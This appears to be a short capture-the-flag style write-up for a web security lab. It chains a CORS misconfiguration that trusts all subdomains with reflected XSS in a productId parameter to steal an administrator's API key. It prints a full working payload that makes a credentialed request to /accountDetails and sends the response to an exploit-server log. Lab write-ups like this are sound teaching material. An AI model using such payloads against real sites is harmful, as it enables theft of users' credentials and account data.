 **Objective**
Reveal API key for administrator or *admin* account.

**CORS**
- Cross Origin Resource Sharing or CORS enables controlled access to data or resources between domains and sub-domains. 

**Point of Entry**
- Web application trusts all subdomains, which is a CORS vulnerability that can be exploited using Cross Site Scripting (XSS).
- GET /accountDetails response containing `Access-Control-Allow-Credentials` indicates CORS support.
- Adding `Origin: http://subdomain.lab-id` to GET /accountDetails request returns a `Access-Control-Allow-Origin`, confirming CORS support.
- As there is CORS support, an XSS vulnerability in productID parameter can be used as point of entry.

**Exploit to Enter**
- Host the following script on exploit server. When attack is successful, admin API key would appear in the log.
`<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>`